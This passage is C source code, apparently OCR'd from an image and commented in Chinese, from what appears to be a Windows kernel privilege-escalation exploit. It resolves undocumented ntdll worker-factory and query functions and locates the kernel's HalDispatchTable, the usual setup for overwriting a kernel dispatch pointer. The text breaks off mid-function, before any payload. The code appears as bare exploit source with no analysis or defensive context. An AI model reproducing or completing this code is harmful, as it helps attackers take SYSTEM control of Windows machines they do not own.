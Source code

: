 ```
__NtQueryInformationWorkerFactory    MyNtQueryInformationWorkerFactory = NULL;
 
DWORD MyHalDispatchTable = NULL;
DWORD oldHaliQuerySystemInformation = NULL;
HANDLE hWorkerFactory = NULL;
typedef DWORD PEPROCESS;
 
 
DWORD GetFuncAddr()
{
    //获取ntdll中的导出函数
    HMODULE hNtdll;
    hNtdll = GetModuleHandle("ntdll.dll");
    if (hNtdll == NULL)
    {
        printf("GetModuleHandle Failed %p\n", GetLastError());
        return 0;
    }
 
    MyNtCreateWorkerFactory = GetProcAddress(hNtdll, "NtCreateWorkerFactory");
    MyNtQueryEaFile = GetProcAddress(hNtdll, "NtQueryEaFile");
    MyNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
    MyNtSetInformationWorkerFactory = GetProcAddress(hNtdll, "NtSetInformationWorkerFactory");
    MyNtQueryIntervalProfile = GetProcAddress(hNtdll, "NtQueryIntervalProfile");
    MyNtQueryInformationWorkerFactory = GetProcAddress(hNtdll, "ZwQueryInformationWorkerFactory");
 
    if (!MyNtCreateWorkerFactory || !MyNtQueryEaFile || !MyNtQuerySystemInformation || !MyNtSetInformationWorkerFactory ||
        !MyNtQueryIntervalProfile || !MyNtQueryInformationWorkerFactory)
    {
        printf("GetProcAddress Failed %p\n", GetLastError());
        return 0;
    }
 
    //获取nt基址PsLookupProcessByProcessId与HalDispatchTable地址
    NTSTATUS Status;
    DWORD cbNeed;
 
    Status = MyNtQuerySystemInformation(11, NULL, 0, &cbNeed);
    if (Status != STATUS_INFO_LENGTH_MISMATCH)
    {
        printf("MyNtQuerySystemInformation Failed %p\n", Status);
        return 0;
    }
    PSYSTEM_MODULE_INFORMATION Info = (PSYSTEM_MODULE_INFORMATION)malloc(cbNeed);
 
    Status = MyNtQuerySystemInformation(11, Info, cbNeed, &cbNeed);
    if (!NT_SUCCESS(Status))
    {
        printf("MyNtQuerySystemInformation Failed %p\n", Status);
        return 0;
    }
 
    DWORD Ntbase = Info->Module[0].Base;
    HMODULE Mynt = LoadLibrary(Info->Module[0].ImageName + Info->Module[0].OffsetToFileName);
    if (Mynt == NULL)
    {
        printf("LoadLibrary Nt Failed\n" );
        return 0;
    }
 
    MyHalDispatchTable = (ULONG)GetProcAddress(Mynt, "HalDispatchTable") - (ULONG)Mynt + Ntbase;
    if (MyHalDispatchTable == NULL)
```